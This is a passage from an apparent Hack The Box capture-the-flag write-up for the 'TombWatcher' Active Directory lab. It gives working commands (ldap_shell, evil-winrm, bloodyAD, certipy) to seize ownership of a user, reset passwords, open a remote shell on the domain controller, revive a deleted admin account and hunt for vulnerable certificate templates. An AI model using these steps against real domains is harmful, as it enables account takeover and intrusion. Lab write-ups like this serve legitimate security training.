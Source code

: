 ## SAM Can Take Over JOHN

The user ```SAM@TOMBWATCHER.HTB``` can change the owner of ```JOHN@TOMBWATCHER.HTB```.
```shell 
ldap_shell tombwatcher.htb/SAM:sam_pass -dc-ip 10.10.11.72

# set_owner "CN=john,CN=Users,DC=tombwatcher,DC=htb"
# set_genericall "CN=john,CN=Users,DC=tombwatcher,DC=htb" sam
# change_password john NewPassword123!
[INFO] Detected insecure connection, attempting to start StartTLS...
[INFO] StartTLS successfully activated!
[INFO] Password changed successfully for "john"! New password: "NewPassword123!"
```
we can take Control of JOHN and Requesting a TGT.
![tgt](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252F3X4Nd0AUILCXmxP6rFoW%252Fimage.png%3Falt%3Dmedia%26token%3Dfd0eb70d-2a24-49d3-9423-6448de5c41d1&width=400&dpr=3&quality=100&sign=5341fb&sv=2)
so what Next...

Now that we fully control ```JOHN@TOMBWATCHER.HTB```, we discovered he has the capability to create a PSRemote session with the Domain Controller ```DC01.TOMBWATCHER.HTB``` This allows us to Enter an interactive PowerShell session on the DC
![personate](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FgdjcYxv9100DNHfmq8wG%252Fimage.png%3Falt%3Dmedia%26token%3Dc8dc0ffb-3b8f-42b7-a0b2-35e7a3966027&width=400&dpr=3&quality=100&sign=2fb24c47&sv=2)
```shell 
evil-winrm -i dc01.tombwatcher.htb -u john -p 'NewPassword123!'
```
![evil](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252Fun9kyFpO0dlJ7OHqhK6L%252Fimage.png%3Falt%3Dmedia%26token%3D3fbefa9e-d2ef-4d42-907f-0a153a514b21&width=400&dpr=3&quality=100&sign=26b4e148&sv=2)

# #Root_flag

Let’s check if John has anything leading to Administrator. We found AD CS, which is good, but not enough , so we’ll look for deleted or unusual user accounts to investigate further.
![root1](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252F2NSMhDlfyoQaQdlbPVSn%252Fimage.png%3Falt%3Dmedia%26token%3Da49e5264-1a29-4baf-a26e-f8f0146e98a4&width=400&dpr=3&quality=100&sign=1c33e57d&sv=2)
```shell 
 Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties *
```
![root2](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FQhcD4AZ4Izr3w73PdFlU%252Fimage.png%3Falt%3Dmedia%26token%3Dce2b3d03-4d83-4db1-b3c4-355f35ffce8f&width=400&dpr=3&quality=100&sign=257d0a35&sv=2)
We found a deleted user, ```cert_admin``` perfect. Let’s restore the account and run BloodHound again to explore new attack paths.
```shell 
Restore-ADObject -Identity "CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb"
```
![root3](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FsgwV7dzZYhoPRGQbGMhG%252Fimage.png%3Falt%3Dmedia%26token%3Dfc233a40-1bf6-430d-b0a7-bf77fc1972d6&width=400&dpr=3&quality=100&sign=ee608616&sv=2)
Now, we’ll use bloodyAD to remove the ```ACCOUNTDISABLE``` flag from ```cert_admin```, reactivating the account for use
```shell 
bloodyAD -d tombwatcher.htb -u john -p 'NewPassword123!' --host 10.10.11.72 remove uac cert_admin -f ACCOUNTDISABLE
```
we’ll use bloodyAD to set a new password  for ```cert_admin```, giving us direct access to the account.
```shell 
bloodyAD --host 10.10.11.72 -u john -p 'NewPassword123!' -d tombwatcher set password cert_admin HackTheBox
```
Let’s check if the ```cert_admin``` account exists and is active.
![root4](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FRY6WpMXlfYTP5KlwkpXY%252Fimage.png%3Falt%3Dmedia%26token%3D3fffb592-864e-4b48-b0e7-f7759d5fcc16&width=400&dpr=3&quality=100&sign=6302e4da&sv=2)
Now, let’s check if there are any vulnerable certificate templates available for exploitation.
```shell 
certipy find -u 'cert_admin' -p 'HackTheBox' -dc-ip '10.10.11.72' -vulnerable -text -enabled
```
